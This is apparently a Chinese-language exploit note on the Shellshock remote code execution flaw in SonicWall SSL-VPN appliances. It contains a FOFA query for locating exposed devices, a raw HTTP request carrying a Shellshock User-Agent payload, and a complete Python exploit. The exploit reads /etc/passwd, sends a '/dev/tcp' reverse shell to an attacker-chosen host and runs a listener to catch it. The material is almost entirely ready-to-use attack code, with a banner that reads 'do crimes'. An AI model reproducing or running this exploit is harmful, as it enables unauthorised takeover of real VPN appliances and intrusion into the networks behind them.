

# SonicWall SSL-VPN 未授权RCE漏洞

FOFA：

```bash
(body="login_box_sonicwall" || header="SonicWALL SSL-VPN Web Server") && body="SSL-VPN"
```

```bash
GET /cgi-bin/jarrewrite.sh HTTP/1.1
Host: forum.ywhack.com
User-Agent: () { :; }; echo ; /bin/bash -c id
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```




```py
import requests
import sys
import telnetlib
import socket
from threading import Thread
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
import time

def banner():
    print """
                                                         
             88                                      88  
             ""                                      88  
                                                     88  
8b       d8  88  ,adPPYba,  88       88  ,adPPYYba,  88  
`8b     d8'  88  I8[    ""  88       88  ""     `Y8  88  
 `8b   d8'   88   `"Y8ba,   88       88  ,adPPPPP88  88  
  `8b,d8'    88  aa    ]8I  "8a,   ,a88  88,    ,88  88  
    "8"      88  `"YbbdP"'   `"YbbdP'Y8  `"8bbdP"Y8  88  
                                                         
                                                         
                                                         
             88                                          
             88                                          
             88                                          
     ,adPPYb,88   ,adPPYba,    ,adPPYba,   8b,dPPYba,    
    a8"    `Y88  a8"     "8a  a8"     "8a  88P'   "Y8    
    8b       88  8b       d8  8b       d8  88            
    "8a,   ,d88  "8a,   ,a8"  "8a,   ,a8"  88            
     `"8bbdP"Y8   `"YbbdP"'    `"YbbdP"'   88   
    SonicWall SSL-VPN Appliance Remote Exploit
Public Release (Jan 2021). Author: Darren Martyn. Credit
goes to Phineas Fisher for this. Stay inside, do crimes.
    """ 

def handler(lp): # handler borrowed from Stephen Seeley.
    print "(+) starting handler on port %d" %(lp)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", lp))
    s.listen(1)
    conn, addr = s.accept()
    print "(+) connection from %s" %(addr[0])
    t.sock = conn
    print "(+) pop thy shell!"
    t.interact()

def execute_command(target, command):
    url = target + "/cgi-bin/jarrewrite.sh"
    headers = {"User-Agent": "() { :; }; echo ; /bin/bash -c '%s'" %(command)}
    r = requests.get(url=url, headers=headers, verify=False)
    return r.text

def check_exploitable(target):
    print "(+) Testing %s for pwnability..." %(target)
    output = execute_command(target=target, command="cat /etc/passwd")
    if "root:" in output:
        print "(*) We can continue, time to wreck this shit."
        return True
    else:
        return False

def pop_reverse_shell(target, cb_host, cb_port):
    print "(+) Sending callback to %s:%s" %(cb_host, cb_port)
    backconnect = "nohup bash -i >& /dev/tcp/%s/%s 0>&1 &" %(cb_host, cb_port)
    execute_command(target=target, command=backconnect)

def hack_the_planet(target, cb_host, cb_port):
    if check_exploitable(target) == True:
        pass
    else:
        sys.exit("(-) Target not exploitable...")
    handlerthr = Thread(target=handler, args=(int(cb_port),))
    handlerthr.start()
    pop_reverse_shell(target=target, cb_host=cb_host, cb_port=cb_port)

def main(args):
    banner()
    if len(args) != 4:
        sys.exit("use: %s https://some-vpn.lol:8090 hacke.rs 1337" %(args[0]))
    hack_the_planet(target=args[1], cb_host=args[2], cb_port=args[3])

if __name__ == "__main__":
    main(args=sys.argv)
```

ref：

* https://forum.ywhack.com/thread-115031-1-1.html
* https://darrenmartyn.ie/2021/01/24/visualdoor-sonicwall-ssl-vpn-exploit/
* https://github.com/darrenmartyn/visualdoor
